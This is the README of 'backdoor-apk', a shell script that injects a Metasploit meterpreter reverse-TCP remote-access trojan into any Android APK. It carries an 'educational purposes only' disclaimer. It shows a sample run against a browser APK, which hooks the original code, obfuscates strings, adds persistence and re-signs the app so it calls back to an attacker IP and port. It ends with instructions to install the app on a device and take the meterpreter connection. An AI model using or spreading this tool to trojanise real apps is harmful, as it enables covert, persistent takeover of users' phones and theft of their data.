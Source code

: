 # backdoor-apk
backdoor-apk is a shell script that simplifies the process of adding a backdoor to any Android APK file. Users of this shell script should have working knowledge of Linux, Bash, Metasploit, Apktool, the Android SDK, smali, etc. This shell script is provided as-is without warranty of any kind and is intended for educational purposes only.

Usage:

```
root@kali:~/Android/evol-lab/BaiduBrowserRat# ./backdoor-apk.sh BaiduBrowser.apk 
[*] Generating RAT APK file...done.
[+] Using payload: android/meterpreter/reverse_tcp
[+] Handle the reverse connection at: 10.6.9.31:1337
[*] Decompiling RAT APK file...done.
[*] Decompiling original APK file...done.
[*] Merging permissions of original and payload projects...done.
[*] Running proguard on RAT APK file...done.
[*] Decompiling obfuscated RAT APK file...done.
[*] Creating new directories in original project for RAT smali files...done.
[*] Copying RAT smali files to new directories in original project...done.
[*] Fixing RAT smali files...done.
[*] Obfuscating const-string values in RAT smali files...done.
[*] Locating smali file to hook in original project...done.
[*] Adding hook in original smali file...done.
[*] Adding persistence hook in original project...done.
[*] Recompiling original project with backdoor...done.
[*] Generating RSA key for signing...done.
[*] Signing recompiled APK...done.
[*] Verifying signed artifacts...done.
[*] Aligning recompiled APK...done.
root@kali:~/Android/evol-lab/BaiduBrowserRat#
```

The recompiled APK will be found in the 'original/dist' directory. Install the APK on a compatible Android device, run it, and handle the meterpreter connection at the specified IP and port.
